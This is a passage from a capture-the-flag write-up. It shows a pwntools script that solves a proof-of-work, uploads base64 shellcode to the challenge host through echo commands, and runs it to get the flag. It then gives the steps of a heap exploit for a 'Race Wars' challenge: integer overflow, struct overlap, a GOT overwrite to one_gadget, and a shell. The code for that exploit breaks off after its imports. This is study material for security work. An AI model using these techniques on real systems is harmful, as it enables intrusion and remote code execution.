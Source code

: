 ```nasm
    mov    DWORD [rax+0x120000],0x0           # Trigger free and get the flag !!
    mov    rax, 60
    xor    rdi, rdi
    syscall
# nasm -felf64 a.asm -o a.o && ld a.o && base64 a.out > shellcode
```
* And the code to send shellcode:
```python
import sys
import struct
import hashlib
from pwn import *

# inspired by C3CTF's POW

def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

r=remote("11d9f496.quals2018.oooverflow.io",31337)
r.recvuntil("Challenge:")
cha=r.recvline().strip("\n")
r.recvuntil("n:")
n=r.recvline().strip("\n")

solution = solve_pow(cha[1:], int(n))

r.sendline(str(solution))
r.recvuntil("/ #")
f=open("shellcode")
for i in f.readlines():
  r.sendline('echo "'+i.strip('\n')+'" >> 1234')
r.sendline("base64 -d 1234 > bb")
r.sendline("chmod +x ./bb")
r.sendline("./bb")
r.interactive()
# The flag is OOO{did you know that the cloud is safe}
```


### Race Wars
1. The vulnerability exists during the program asks for tire amount; when doing so, we can apply for 0x8000000 tires to cause int overflow (0x8000000*0x20 = 0), and make the program allocate 0-size memory, but the tires struct can still be placed on heap for us to control.
2. Use transmission function to overlap the tires struct and transmission struct 
3. Use modify_tires functions to set all the attributes of tire as 0xffff
4. Use modify_transmission function to get relative address read/write capability of arbitrary memory
5. Read heap address and code GOT address to get libc address, then modify exit GOT to one_gadget, call exit, and get shell
* code:
```python=
from pwn import *
import sys
```
